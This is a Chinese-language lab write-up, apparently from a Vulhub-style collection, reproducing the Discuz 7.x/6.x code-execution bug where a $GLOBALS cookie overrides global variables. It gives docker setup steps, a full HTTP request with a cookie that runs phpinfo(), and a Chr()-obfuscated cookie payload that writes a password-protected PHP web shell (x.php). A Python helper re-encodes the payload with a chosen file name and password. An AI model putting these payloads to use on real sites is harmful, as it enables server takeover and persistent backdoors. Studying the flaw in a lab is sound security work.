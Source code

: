 # Discuz 7.x/6.x 全局变量防御绕过导致代码执行

## 漏洞描述

由于php5.3.x版本里php.ini的设置里`request_order`默认值为GP，导致`$_REQUEST`中不再包含`$_COOKIE`，也就是说默认配置下`$_REQUEST`只包含`$_GET`和`$_POST`而不包括$_COOKIE。

我们通过在Cookie中传入`$GLOBALS`来覆盖全局变量，造成代码执行漏洞。

具体原理请参考：

- https://www.secpulse.com/archives/2338.html

## 环境搭建

Vulhub执行如下命令启动Discuz 7.2：

```
docker-compose up -d
```

启动后，访问`http://your-ip:8080/install/`来安装discuz，数据库地址填写`db`，数据库名为`discuz`，数据库账号密码均为`root`。

![image-20220222112715390](./images/202202221127521.png)

## 漏洞复现

安装成功后，直接找一个已存在的帖子，向其发送数据包，并在Cookie中增加`GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();`：

```
GET /viewthread.php?tid=10&extra=page%3D1 HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();
Connection: close
```

![image-20220222112923996](./images/202202221129105.png)

同样方法传入以下Cookie写入一句话木马文件，文件为x.php，密码为pwd

```
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=eval(Chr(102).Chr(112).Chr(117).Chr(116).Chr(115).Chr(40).Chr(102).Chr(111).Chr(112).Chr(101).Chr(110).Chr(40).Chr(39).Chr(120).Chr(46).Chr(112).Chr(104).Chr(112).Chr(39).Chr(44).Chr(39).Chr(119).Chr(39).Chr(41).Chr(44).Chr(39).Chr(60).Chr(63).Chr(112).Chr(104).Chr(112).Chr(32).Chr(64).Chr(101).Chr(118).Chr(97).Chr(108).Chr(40).Chr(36).Chr(95).Chr(80).Chr(79).Chr(83).Chr(84).Chr(91).Chr(112).Chr(119).Chr(100).Chr(93).Chr(41).Chr(63).Chr(62).Chr(39).Chr(41).Chr(59))
```

ASCII码和字符互相转换的小脚本，方便修改POC的文件名和密码：

```
import re
# ASCII = ord(Word)
# Word = chr(ASCII)

# ASCII -> Word
def ASCII2word(ASCIIs):
	for c in re.findall(r"(\d+)", ASCIIs):
	    print(chr(int(c)),end="")

# Word -> ASCII
def word2ASCII(words):
	ASCIIs = ""
	for word in words:
		ASCIIs += "Chr(" + str(ord(word)) + ")."
	print(ASCIIs)

print("----------ASCII TO WORD---------------------")

asciis = "Chr(102).Chr(112).Chr(117).Chr(116).Chr(115).Chr(40).Chr(102).Chr(111).Chr(112).Chr(101).Chr(110).Chr(40).Chr(39).Chr(109).Chr(105).Chr(115).Chr(104).Chr(105).Chr(46).Chr(112).Chr(104).Chr(112).Chr(39).Chr(44).Chr(39).Chr(119).Chr(39).Chr(41).Chr(44).Chr(39).Chr(60).Chr(63).Chr(112).Chr(104).Chr(112).Chr(32).Chr(64).Chr(101).Chr(118).Chr(97).Chr(108).Chr(40).Chr(36).Chr(95).Chr(80).Chr(79).Chr(83).Chr(84).Chr(91).Chr(116).Chr(101).Chr(115).Chr(116).Chr(93).Chr(41).Chr(63).Chr(62).Chr(39).Chr(41).Chr(59)"
ASCII2word(asciis)

print("\n\n----------WORD TO ASCII--------------------")

words = "fputs(fopen('x.php','w'),'<?php @eval($_POST[pwd])?>');"
word2ASCII(words)
```

